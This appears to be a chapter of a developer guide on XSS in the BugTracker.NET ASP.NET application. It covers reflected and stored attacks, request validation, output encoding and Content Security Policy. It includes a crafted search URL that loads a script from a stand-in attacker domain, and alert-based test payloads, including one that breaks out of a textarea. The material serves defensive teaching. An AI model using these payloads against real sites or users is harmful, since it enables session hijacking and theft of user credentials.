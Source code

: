 #Cross Site Scripting

One of the most common exploits on the web is cross site scripting or XSS. As you likely know you can embed JavaScript nearly anywhere in the DOM and the browser will happily execute it. This is a throw back to the days when all JavaScript looked like

```
   <button onclick="if(document.forms[0].elements[0].value == '') return false; return true;"/>
```

You may have noticed that you can include script tags in the head (as used to be suggested years ago) and in the footer (as is recommended for most scripts these days).

The problem with this is that it means that if users enter something that looks like JavaScript and the sever returns it then the browser will interpret it as JavaScript and execute it. This sort of behaviour is more common that you would expect. Any time that you show the search criteria that lead to a search results page this is an opportunity for a cross site scripting attack.

Being able to place arbitrary JavaScript on the page opens up all sorts of potential issues. On a login page the JavaScript could capture keystrokes and forward them to an attacker. On other pages actions could be executed. It is even possible that the injected script could perform AJAX actions. That is especially problematic on a single page application where all actions are executed via AJAX end points. The requests sent from the injected script will carry with them the authentication cookies from the user's session granting it the same permissions as the user.

##Non Persistent XSS

In the case of showing the search criteria this is a non-persistent XSS. Another user will not see your search criteria so they cannot be harmed by anything you enter. This doesn't mean that you're users aren't at risk.

Let's look a bit more at the search example: a user will enter a search string, say "user interface", and then hit 'search'. This will perform a get to the server so that the resulting url would look like

    http://example.com/search.aspx?q=user%20interface

A malicious attacker could send a link with an attack encoded in it to a user via e-mail. That user would click on the link and, being already logged in, would be taken to the search results page where the payload of the attack would be inserted  into the document and executed.

    http://example.com/search.aspx?q=%3Cscript%20src=%27evildomain.com/attack.js%27%3E%3C/script%3E  

At a glance even a well trained user might see nothing wrong with the link. With their script injected into the page the malicious attacker gains control of the legitimate user's session.

##Persistent XSS

If your application ever takes in user input and then displays it you might be vulnerable to XSS. Does that sound like every application in the world? It more or less is. In BugTracker.net there are multiple places where we do this. Any time a new bug is created a user will enter a name and a description. This information is then saved into the database, persisted if you will. Subsequent users will be able to visit this bug page and see the information entered.

This is an example of a persistent XSS, one that can be communicated to other users through regular use of the site. Victims need not do anything other than visit the site to have the attack inflicted upon them.

![Flow of a persistent XSS attack](Images/XSS flow.png)

##Saving Ourselves

There are a couple of approaches to preventing XSS attacks. The first is to prevent an attack payload from ever making it to the server and the second is to prevent it from being shown on the browser. We can use a combination of these two approaches to prevent attacks.

We're lucky in that ASP.net will actually detect malicious payload and block the request. If we try to enter

    <script>alert("hi");</script>

on the edit_org.aspx page in BugTracker.net then we'll see this error message come up.

![](Images/asp XSS warning.jpg)

That's fantastic! We're well protected, right? The protection works by blocking any input that contains angle brackets in the shape of a tag. Well there are times when you actually want to send some limited angle brackets to the server. Consider a rich text editor, we would like to support tags there so that the content can be rendered out properly. In that scenario we would disable the request validation for the page. Request validation can also be disabled globally but that is a terrible idea as it exposes the entire site to exploit instead of just one area: minimize the area of attack.

On a single page we're looking for ValidateRequest to be set to false like so:

```
<%@ Page language="C#" ValidateRequest="false" CodeBehind="search.aspx.cs" Inherits="btnet.search" AutoEventWireup="True" %>
```
The github search is [pretty handy](https://github.com/dpaquette/BugTracker.NET/search?p=2&q=validateRequest%3D%22false%22&type=Code&utf8=%E2%9C%93) for this sort of thing. We can see that there are about 20 places where request validation is explicitly turned off. That's pretty significant as it is approximately 1/6th of the pages in BugTracker.net.  

However an audit of the pages with request validation turned off found no issues. There are some additional built in tools in ASP.net that protect us. The first, and the one that saves us here, is that using code behind to set the value on a field will automatically escape the content.

In a test I entered

    </textarea><script>alert("hi");</script>

into the edit box of edit_comment.aspx, a page with request validation turned off. The markup returned by the server was well escaped

    <textarea name="comment" id="comment" rows="16" cols="80" class="txt resizable">&lt;/textarea&gt; &lt;script&gt;alert(&quot;hi&quot;);&lt;/script&gt;</textarea>

Although unused in BugTracker.net another option is to use <%: instead of <%= when writing out information in an aspx page. This will automatically encode the printed information. The <%= tool is pretty much unused in BugTracker.net as the original author preferred an approach closer to WinForms.

Going forward it would be a good idea to put in either some documentation about the approach to XSS or set up a coding standard that will prevent it. Catching XSS in coding reviews is pretty easy if you're looking for it. That the database contains unescaped data may be worrying to some: a new programmer may assume the data is clean. On the other hand escaping the data in the database means that it must be manually unescape in certain instances. The risk is lower in the case forcing unescaping on rendering than just rendering whatever we have.

Now that we're aware of how XSS is handled by BugTracker.net we can make sure that our programming team (of 2) deals with it properly.  

##The Nuclear Approach

One approach that I really like to preventing XSS is to use the [Content Security Policy](http://www.w3.org/TR/CSP/). This is a special header that instructs the browser how to deal with resources external to the page. By setting this header correctly you can instruct the browser to not run inline scripts and instead run only external scripts. This means that there is no way to inject script content into the HTML page in a way such that it will be executed.

The header is as simple as

    Content-Security-Policy script-src 'self';

However [browser support](http://caniuse.com/#feat=contentsecuritypolicy) for this header remains spotty. It also means that you cannot include anything that you want to work between script tags - all your scripts must be external. I'm a big fan of this approach and I see it taking off in the next few years.

Unfortunately the work needed to split out all the scripts into distinct items in BugTracker.net is monumental. It is something we hope to address but only within the context of a larger rewrite of how JavaScript is handled in BugTracker.net.
